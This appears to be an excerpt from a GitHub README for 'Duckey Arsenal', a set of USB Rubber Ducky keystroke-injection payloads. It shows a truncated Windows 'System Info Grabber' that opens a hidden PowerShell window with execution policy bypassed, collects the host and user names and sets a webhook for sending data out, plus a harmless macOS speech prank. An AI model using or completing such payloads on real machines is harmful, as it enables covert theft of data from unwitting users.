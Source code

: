 ### Windows System Information
```ducky
REM ===================================
REM    DUCKEY ARSENAL - System Info Grabber
REM    Created by: 0x0806
REM    Target: Windows
REM ===================================

DELAY 500
GUI r
DELAY 100
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass
ENTER
DELAY 500

STRING $webhook = "YOUR_WEBHOOK_HERE"
ENTER
STRING $computerName = $env:COMPUTERNAME
ENTER
STRING $userName = $env:USERNAME
ENTER
# ... (payload continues)
```

### macOS Terminal Prank
```ducky
REM ===================================
REM    DUCKEY ARSENAL - macOS Fun Prank
REM    Created by: 0x0806
REM    Target: macOS
REM ===================================

DELAY 500
COMMAND SPACE
DELAY 300
STRING Terminal
ENTER
DELAY 1000

STRING say "You have been rubber ducked by Duckey Arsenal!"
ENTER
```

---

## 🎨 UI/UX Features

### Modern Design
- **Dark Theme** - Eye-friendly cybersecurity aesthetic
- **Neon Accents** - Green and blue gradient highlights
- **Responsive Layout** - Works on desktop, tablet, and mobile
- **Smooth Animations** - Engaging hover effects and transitions
